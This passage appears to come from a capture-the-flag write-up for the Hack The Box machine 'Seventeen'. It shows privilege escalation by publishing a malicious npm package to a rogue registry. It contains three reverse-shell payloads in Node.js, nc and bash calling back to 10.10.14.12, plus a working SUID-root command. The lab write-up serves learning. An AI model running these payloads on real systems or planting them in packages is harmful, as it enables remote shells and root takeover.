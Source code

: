 ![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Seventeen/screenshots/run%20docker%20locally.png)


### docker npm add user --> new authToken in .npmrc file
````
npm adduser --registry http://10.10.14.12:4873

`````

### now authentication to registry is possible with authToken
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Seventeen/screenshots/npmrc%20authToken.png)

### npm init --> version must be greater than installed version
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Seventeen/screenshots/npm%20version%20loglevel.png)

### npm init --> setup new npm package
````bash
npm init

`````

![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Seventeen/screenshots/npm%20init.png)

### create malicious index.js file
````js

//not working
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(4444, "10.10.14.12", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application from crashing
})();

//not working
require('child_process').exec('nc -e /bin/bash 10.10.14.2 4444')

//not working really two; callback but no interaction
require('child_process').exec("bash -c 'bash -i >& /dev/tcp/10.10.14.12/9999 0>&1'")


//working
require('child_process').exec("chown root:root /tmp/shell;chmod 4755 /tmp/shell")



`````
